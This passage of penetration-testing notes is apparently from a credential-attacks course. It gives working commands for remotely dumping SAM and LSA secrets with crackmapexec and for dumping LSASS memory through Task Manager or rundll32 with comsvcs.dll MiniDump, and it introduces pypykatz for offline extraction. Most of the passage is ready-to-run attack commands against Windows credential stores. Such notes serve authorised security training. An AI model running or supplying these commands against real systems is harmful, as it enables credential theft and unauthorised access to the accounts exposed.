 ```bash
crackmapexec smb $ip --local-auth -u $username -p $password --sam
```

## → Remote Dumping **LSA Secrets Considerations**

```bash
crackmapexec smb $ip --local-auth -u $username -p $password --lsa
```

# ⇒ Attack LSASS

Similar to the process of attacking the SAM database, with LSASS, it would be wise for us first to create a copy of the contents of LSASS process memory via the generation of a memory dump.

## → Dump LSASS Process via Task Manager (GUI)

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

## →Dump LSASS Process via **`Rundll32.exe` & `Comsvcs.dll`**

Before issuing the command to create the dump file, we must determine what process ID (`PID`) is assigned to `lsass.exe`. This can be done from cmd or PowerShell:

1. get LSASS PID
    - using CMD → tasklist
        
        ```bash
        tasklist /svc
        ```
        
    - using PowerShell → Get-Process
    
    ```powershell
    Get-Process lsass
    ```
    
2. dump LSASS process
    
    ```powershell
    rundll32 C:\windows\system32\comsvcs.dll, MiniDump $PID C:\lsass.dmp full
    ```
    

## → Extract Credentials using `pypykatz`

- info
    
    Pypykatz is an implementation of Mimikatz written entirely in Python. The fact that it is written in Python allows us to run it on Linux-based attack hosts. At the time of this writing, Mimikatz only runs on Windows systems, so to use it, we would either need to use a Windows attack host or we would need to run Mimikatz directly on the target, which is not an ideal scenario. This makes Pypykatz an appealing alternative because all we need is a copy of the dump file, and we can run it offline from our Linux-based attack host.
    
